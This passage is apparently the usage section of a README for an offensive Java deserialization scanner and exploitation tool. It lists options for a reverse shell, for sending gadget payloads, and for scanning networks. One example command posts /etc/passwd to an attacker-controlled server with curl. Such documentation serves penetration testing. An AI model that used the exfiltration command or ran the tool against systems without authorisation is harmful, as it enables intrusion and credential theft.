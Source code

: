     Standalone mode:
      -host HOST, -u HOST   Host address to be checked (eg. -u
                            http://192.168.0.10:8080)

    Advanced Options (USE WHEN EXPLOITING JAVA UNSERIALIZE IN APP LAYER):
      --reverse-host RHOST:RPORT, -r RHOST:RPORT
                            Remote host address and port for reverse shell when
                            exploiting Java Deserialization Vulnerabilities in
                            application layer (for now, working only against *nix
                            systems)(eg. 192.168.0.10:1331)
      --cmd CMD, -x CMD     Send specific command to run on target (eg. curl -d
                            @/etc/passwd http://your_server)
      --windows, -w         Specifies that the commands are for rWINDOWS System$
                            (cmd.exe)
      --post-parameter PARAMETER, -H PARAMETER
                            Specify the parameter to find and inject serialized
                            objects into it. (egs. -H javax.faces.ViewState or -H
                            oldFormData (<- Hi PayPal =X) or others) (DEFAULT:
                            javax.faces.ViewState)
      --show-payload, -t    Print the generated payload.
      --gadget {commons-collections3.1,commons-collections4.0,groovy1}
                            Specify the type of Gadget to generate the payload
                            automatically. (DEFAULT: commons-collections3.1 or
                            groovy1 for JenKins)
      --load-gadget FILENAME
                            Provide your own gadget from file (a java serialized
                            object in RAW mode)
      --force, -F           Force send java serialized gadgets to URL informed in
                            -u parameter. This will send the payload in multiple
                            formats (eg. RAW, GZIPED and BASE64) and with
                            different Content-Types.

    Auto scan mode:
      -network NETWORK      Network to be checked in CIDR format (eg. 10.0.0.0/8)
      -ports PORTS          List of ports separated by commas to be checked for
                            each host (eg. 8080,8443,8888,80,443)
      -results FILENAME     File name to store the auto scan results

    File scan mode:
      -file FILENAME_HOSTS  Filename with host list to be scanned (one host per
                            line)
      -out FILENAME_RESULTS
                            File name to store the file scan results

Questions, problems, suggestions and etc:
-----------------------------------------

-   joaomatosf\@gmail.com

